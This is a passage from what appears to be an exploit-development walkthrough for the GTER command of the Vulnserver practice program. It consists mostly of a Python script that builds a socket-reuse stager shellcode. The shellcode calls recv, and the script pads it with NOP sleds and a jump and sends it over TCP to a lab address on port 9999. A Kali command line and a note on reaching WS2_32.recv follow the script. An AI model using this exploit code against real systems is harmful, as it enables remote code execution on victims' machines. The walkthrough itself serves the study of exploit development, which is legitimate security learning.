 ```c
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 socket-reuse-stager.py
```

After running this, we could see that our ```call edx``` instruction is able to call the ```JMP.&WS2_32.recv``` function

<div align="center">